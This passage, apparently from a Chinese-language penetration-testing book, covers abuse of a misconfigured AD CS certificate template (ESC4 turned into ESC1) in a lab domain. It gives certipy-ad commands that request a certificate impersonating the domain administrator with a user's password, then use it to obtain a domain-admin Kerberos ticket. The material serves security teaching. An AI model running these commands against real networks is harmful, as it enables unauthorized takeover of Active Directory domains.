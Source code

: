上述命令的结果如下截图所示：

![图 8.29 – 调整后的易受攻击模板适应 ESC1 攻击路径](img/B18964_08_29.jpg)

图 8.29 – 调整后的易受攻击模板适应 ESC1 攻击路径

现在，我们可以像在 ESC1 攻击中一样，滥用配置错误的模板：

```
certipy-ad req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template ESC4 -ca 'ESSOS-CA' -upn administrator@essos.local
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

结果，我们成功请求了证书，并以域管理员身份获取了 TGT。
